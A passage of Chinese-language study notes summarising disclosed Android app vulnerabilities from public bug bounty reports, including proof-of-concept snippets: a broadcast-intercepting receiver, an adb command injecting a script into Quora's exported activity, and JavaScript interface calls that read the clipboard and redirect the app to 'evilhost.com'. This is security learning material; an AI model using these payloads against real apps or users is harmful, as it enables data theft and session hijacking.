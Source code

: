 4. NextCloud应用文件上传广播劫持
https://hackerone.com/reports/167481
March 24, 2017

漏洞细节
poc: 注册一个reciever:
<receiver android:exported="true" android:enabled="true" android:name=".InterceptReceiver">
    <intent-filter android:priority="999"> //这里是接受广播的优先权吧
        <action android:name="FileUploader.UPLOAD_START"/>
        <action android:name="FileUploader.UPLOAD_FINISH"/>
        <action android:name="FileUploader.UPLOADS_ADDED"/>
    </intent-filter>
</receiver>

在manifest中静态注册的receiver将先于应用本身，

5. [IRCCloud Android] Opening arbitrary URLs/XSS in SAMLAuthActivity
https://hackerone.com/reports/283058
November 3, 2017
由于activity export
这不能算是洞吧 ...
但是也有危害，因为人不能看到真实的URL，可以用来钓鱼。

6. Dolphin浏览器未正确处理url scheme
https://github.com/VerSprite/research/blob/master/advisories/VS-2017-002.md
CVE-2017-17553
Dolphin Browser for Android Insecure Intent URI Scheme Parsing Vulnerability

7. Quora 导出组件导致的XSS
xss可以偷cookie，登陆账号，本质上为可以执行任意js代码，那么，就可以访问cookie然后回传。

poc:
  am start -n com.quora.android/com.quora.android.ActionBarContentActivity -e url 'http://test/test' -e html 'XSS<script>alert(123)</script>'
  
可以加载第三方js
可以通过一些定义的js接口做一些事情，例如获取剪切板内容
QuoraAndroid.getClipboardData()
QuoraAndroid.sendMessage(
"{\"messageName\":\"switchInstance\",\"data\":{\"host\":\"evilhost.com\",\"instance_name\":\"evilhost\",\"scheme\":\"https\"}}"
);
change the server address.

extra:
https://labs.mwrinfosecurity.com/blog/webview-addjavascriptinterface-remote-code-execution/

8. Dropbox访问非导出content provider
https://hackerone.com/reports/272044
dropbox的LoginOrNewAcctActivity组件exported，
通过向此组件传送一个intent extra，可以让这个Activity将此intent传递给未exported的content provider组件，
虽然在访问时对className进行了验证，但是没有对传进来的包名进行验证。
因为而可通过x这条链将信息偷出去

extra:
这种手段称为embedded intent?
